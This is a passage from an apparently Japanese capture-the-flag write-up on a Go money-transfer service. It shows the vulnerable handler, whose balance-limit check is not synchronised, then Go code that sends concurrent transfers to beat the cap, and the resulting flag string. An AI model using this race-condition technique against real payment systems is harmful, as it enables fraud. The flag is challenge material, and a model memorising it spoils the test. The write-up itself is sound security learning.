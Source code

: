```go:main.go
func transfer(w http.ResponseWriter, r *http.Request) {
	...
	// 上限チェック
	if users[to].Balance+int32(amount) > 9999999 {
		msg := fmt.Sprintf("{\"error\": \"Balance validation failed: %d\"}", int32(amount))
		http.Error(w, msg, http.StatusMethodNotAllowed)
		return
	}
	...
}
```

ファッう〜ん…｡
送金処理も見てみる｡

```go:main.go
	// 上限チェック
	if users[to].Balance+int32(amount) > 9999999 {
		...
	}

	...

	// 残高の移動
	users[from].Balance = users[from].Balance - int32(amount)
	users[to].Balance = users[to].Balance + int32(amount)

	...
```

なんかここクサいんだよね､`users[to].Balance`を変数に束縛してないで毎度参照している｡
これってつまり…**残高が上限を超える送金額を小分けにして各リクエストの上限判定を通せる**んじゃない?
いろんなセッションでgoroutineなどの並行並列よもやま話を聞いてきたお陰で脳が活性化しました｡
上限ギリギリから再スタートするとすぐ上限に当たってしまうので､Dockerを再起動してから回します｡

```go
count := 10
wg2 := &sync.WaitGroup{}
wg2.Add(count)

for i := 0; i < count; i++ {
	go func() {
		r, _ := transfer(alice, bob, fmt.Sprintf("%d", uf+soukinMax))
		println(r)
		wg2.Done()
	}()
}

wg2.Wait()

ans, _ := balance(bob)
println(ans)
// {"balance": "10000000", "flag": "kanmu_ctf_2023{https://public.kanmu.jp/gocon2023/congratulations-Y8RYX3gmMZ.html}"}
```
